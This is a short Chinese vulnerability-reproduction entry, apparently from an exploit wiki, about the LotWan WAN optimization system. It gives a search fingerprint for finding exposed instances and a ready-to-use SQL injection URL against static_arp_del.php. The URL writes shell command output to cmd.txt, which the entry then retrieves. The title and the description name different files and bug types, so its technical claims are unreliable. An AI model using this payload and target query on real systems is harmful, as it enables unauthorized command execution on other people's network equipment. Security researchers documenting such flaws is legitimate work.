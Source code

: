



# 华夏创新 LotWan广域网优化系统 static_arp_del.php SQL注入漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统check_instance_state.php文件参数 ins存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>华夏创新 LotWan广域网优化系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="LotWan 广域网优化系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1635942598942-6671fa50-5052-43f6-ab40-bf2c8403bdf8.png)

存在漏洞的文件为 static_arp_del.php, 通过union注入写入文件

```php
/acc/bindipmac/static_arp_del.php?x=1&arpName=1' and 0 union select 1,'||id>cmd.txt||',3,4,5,6,7,8--
```

再访问 `/acc/bindipmac/cmd.txt`

![img](/assets/PeiQi-Wiki/img/1635944083151-f56d838d-54e4-4d28-a6ac-6e079e936cf3.png)

